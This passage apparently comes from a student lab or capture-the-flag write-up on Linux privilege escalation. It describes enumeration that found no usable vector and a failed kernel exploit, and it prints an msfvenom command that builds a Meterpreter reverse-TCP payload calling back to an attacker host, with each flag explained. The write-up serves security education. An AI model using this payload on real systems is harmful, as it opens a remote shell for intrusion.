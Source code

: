 
### Privilege escalation on Linux

If you want to escalate your privileges on Linux, you have five options, which are the following:<cite>priv-esc-overview[^11]</cite>
1. Find an exploit for the version of the kernel that is running.<cite>kernel-exploit[^12]</cite>
2. Find a SUID binary that runs with the owner's permissions.<cite>suid[^13]</cite>
3. Escalate to a shell in a usable command with `sudo`.<cite>sudo-exploit[^14]</cite>
4. Find writable files that run at startup, like `crontab`, or other misconfigurations in the system.<cite>enumeration-walkthough[^10]</cite>
5. Find an attachable process that is running as root.

#### Using a smart enumeration tool

To quickly and effortlessly gather information about possible attack vectors for privilege escalation, there are tools such as `linux-smart-enumeration` to do the job for you.<cite>lse[^15]</cite> After running the script on both users, we found that there were no attack vectors we could exploit. We discovered an empty backup file in the following location: `/snap/docker/2963/usr/share/man/man8/zstreamdump.8.gz`, and a `screen` session by the root user which we could not attach to. Additionally, the binaries `/snap/snapd/23545/usr/lib/snapd/snap-confine` and `/snap/snapd/23258/usr/lib/snapd/snap-confine` run as root, but the only available exploit for them has been patched for years. Furthermore, the only command we could run with elevated privileges is `cat /opt/secret_flag.txt`, which does not allow us to escalate to the command line interface (CLI). Lastly, not a single cron file was writable, nor were we able to view configuration files such as `/etc/sudoers`, which means there is no way to get root privileges on the system.

#### Trying a kernel level exploit

We also tried a kernel exploit from exploit-db out of desperation, which failed at compiling.<cite>exploitdb[^16]</cite>

#### Trying to get privileges using Metasploit and Meterpreter

Lastly, we tried to use Meterpreter and its prebuilt privilege escalation modules.<cite>linux-reverse-tcp[^17]</cite><cite>metasploit-local-exploiter-suggestor[^18]</cite>

To do this, we had to generate a payload first. The payload was generated with the following command:  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f elf -o payload.bin`<cite>msfvenomdocs[^19]</cite>

```bash
-p linux/x86/meterpreter/reverse_tcp #setting the payload to be reverse TCP for Linux x86
LHOST=[IP] # sets IP address of the attacking machine
LPORT=4444 #sets the local port to listen for a connection
-f elf #specifies the output format
-o payload.bin #specifies the output filename
```

{{< figure src="/itsi/y3/ex7/images/msfgenpayload.png" title="Figure 27: Generating the payload using msfvenom" >}}

After this, the payload is uploaded to the target using scp, as demonstrated in Figure 28.


[^1]: This task definition and summary were generated using ChatGPT from the original bullet points.
[^2]: Lockheed Martin. Cyber Kill Chain®. [source](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
[^3]: Nmap. Service and Version Detection. [source](https://nmap.org/book/man-version-detection.html)
[^4]: Nmap. Timing Templates (-T). [source](https://nmap.org/book/performance-timing-templates.html)
[^5]: 10-million-password-list-top-10000.txt. [source](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)
[^6]: Code Zen. Defeating HTTP Basic Auth with Hydra. [source](https://tylerrockwell.github.io/defeating-basic-auth-with-hydra)
[^7]: GeeksforGeeks. How to use Hydra to BruteForce SSH Connections? [source](https://www.geeksforgeeks.org/how-to-use-hydra-to-brute-force-ssh-connections)
[^8]: Ask Ubuntu. What does 2>/dev/null mean? [source](https://askubuntu.com/questions/350208/what-does-2-dev-null-mean)
[^9]: GeeksforGeeks. find command in Linux Linux Tutorial. [source](https://www.geeksforgeeks.org/find-command-in-linux-with-examples)
[^10]: Uppin, C. M. Series of CTF machines Walkthrough #4 Linux Privilege Escalation (Enumeration). [source](https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be)
[^11]: Delinea. Linux Privilege Escalation. [source](https://delinea.com/blog/linux-privilege-escalation)
[^12]: Uppin, C. M. Series of CTF machines Walkthrough #5 Linux Privilege Escalation using Kernel Exploit. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-5-linux-privilege-escalation-using-kernel-exploit-e188970fb905)
[^13]: Uppin, C. M. Series of CTF machines Walkthrough #7 Linux Privilege Escalation using SUID permissions. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-7-linux-privilege-escalation-using-suid-permissions-7f82335e7547)
[^14]: Uppin, C. M. Series of CTF machines Walkthrough #6 Linux Privilege Escalation using SUDO permissions. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-6-linux-privilege-escalation-using-sudo-permissions-c517cb789bc6)
[^15]: linux-smart-enumeration. [source](https://github.com/diego-treitos/linux-smart-enumeration)
[^16]: Qualys Corporation. Linux Kernel - 'ldso_hwcap Stack Clash' Local Privilege Escalation. [source](https://www.exploit-db.com/exploits/42274)
[^17]: metasploit-framework/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md at master · rapid7/metasploit-framework. [source](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md)
[^18]: drd_. Null Byte. [source](https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463)
[^19]: Metasploit Documentation. How to use msfvenom. [source](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
[^20]: LinuxConfig. Recover - Reset Forgotten Linux Root Password. [source](https://linuxconfig.org/recover-reset-forgotten-linux-root-password)